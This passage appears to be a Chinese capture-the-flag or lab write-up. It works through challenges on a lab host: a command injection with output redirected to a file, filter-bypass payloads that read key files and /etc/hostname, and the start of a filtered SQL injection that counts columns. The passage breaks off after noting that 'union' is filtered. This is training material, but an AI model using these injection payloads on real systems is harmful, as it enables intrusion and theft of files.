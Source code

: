 所以可以把内容输出到一个文件中，即重定向内容来访问

```
http://11.1.10.12:34034/start/vul.php?cmd=ls > z.txt
```

![image-20241125213353713](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125213353713.png)

### 34035 命令执行

![image-20241125213636358](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125213636358.png)

![image-20241125213752103](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125213752103.png)

测试发现对管道符|、whoami、cat、tac、head、tail、more、less、key.php都有过滤

提供几个执行成功的：

```
&&grep '' ../key.*

&&grep . ../key.*

awk {print}  ../key.*

sed ''  ../key.*

&&diff /etc/hostname ../key.*
```

![image-20241125214408106](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125214408106.png)

![image-20241125220744724](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125220744724.png)

源代码查看key

### *34061  注入（模糊查询）

![image-20241125220857882](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125220857882.png)

![image-20241125221008890](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221008890.png)

闭合已给出

爆列数

![image-20241125221243638](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221243638.png)



发现`#`被过滤，使用-- 注释，爆出7列

![image-20241125221530845](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125221530845.png)

union select爆注入点，发现`union`被过滤
